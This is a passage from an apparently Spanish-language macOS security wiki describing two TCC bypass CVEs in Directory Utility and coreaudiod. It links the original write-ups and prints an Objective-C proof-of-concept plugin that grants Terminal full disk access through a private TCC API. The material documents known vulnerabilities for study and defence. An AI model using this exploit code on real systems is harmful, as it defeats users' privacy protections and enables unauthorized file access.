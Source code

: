 ### CVE-2020-27937 - Directory Utility

La aplicación `/System/Library/CoreServices/Applications/Directory Utility.app` tenía el derecho **`kTCCServiceSystemPolicySysAdminFiles`**, cargaba plugins con extensión **`.daplug`** y **no tenía el** runtime endurecido.

Para armar este CVE, se **cambia** el **`NFSHomeDirectory`** (abusando del derecho anterior) para poder **tomar el control de la base de datos TCC del usuario** y eludir TCC.

Para más información, consulta el [**informe original**](https://wojciechregula.blog/post/change-home-directory-and-bypass-tcc-aka-cve-2020-27937/).

### CVE-2020-29621 - Coreaudiod

El binario **`/usr/sbin/coreaudiod`** tenía los derechos `com.apple.security.cs.disable-library-validation` y `com.apple.private.tcc.manager`. El primero **permitiendo la inyección de código** y el segundo otorgándole acceso para **gestionar TCC**.

Este binario permitía cargar **plugins de terceros** desde la carpeta `/Library/Audio/Plug-Ins/HAL`. Por lo tanto, era posible **cargar un plugin y abusar de los permisos TCC** con este PoC:
```objectivec
#import <Foundation/Foundation.h>
#import <Security/Security.h>

extern void TCCAccessSetForBundleIdAndCodeRequirement(CFStringRef TCCAccessCheckType, CFStringRef bundleID, CFDataRef requirement, CFBooleanRef giveAccess);

void add_tcc_entry() {
CFStringRef TCCAccessCheckType = CFSTR("kTCCServiceSystemPolicyAllFiles");

CFStringRef bundleID = CFSTR("com.apple.Terminal");
CFStringRef pureReq = CFSTR("identifier \"com.apple.Terminal\" and anchor apple");
SecRequirementRef requirement = NULL;
SecRequirementCreateWithString(pureReq, kSecCSDefaultFlags, &requirement);
CFDataRef requirementData = NULL;
SecRequirementCopyData(requirement, kSecCSDefaultFlags, &requirementData);

TCCAccessSetForBundleIdAndCodeRequirement(TCCAccessCheckType, bundleID, requirementData, kCFBooleanTrue);
}

__attribute__((constructor)) static void constructor(int argc, const char **argv) {

add_tcc_entry();

NSLog(@"[+] Exploitation finished...");
exit(0);
```
Para más información, consulta el [**informe original**](https://wojciechregula.blog/post/play-the-music-and-bypass-tcc-aka-cve-2020-29621/).

### Complementos de Capa de Abstracción de Dispositivos (DAL)
